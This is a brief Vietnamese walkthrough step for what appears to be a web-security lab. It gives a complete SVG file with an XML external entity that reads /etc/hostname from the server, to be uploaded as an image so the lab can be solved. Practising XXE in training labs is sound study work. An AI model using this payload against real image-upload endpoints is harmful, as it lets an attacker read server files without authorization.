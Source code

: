 -Tạo 1 file ".svg" với nội dung: 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [
  <!ENTITY xxe SYSTEM "file:///etc/hostname">
]>
<svg xmlns="http://www.w3.org/2000/svg" width="200" height="200">
  <text x="10" y="20">&xxe;</text>
</svg>
```

- Truy cập ảnh vừa tạo và solve this lab.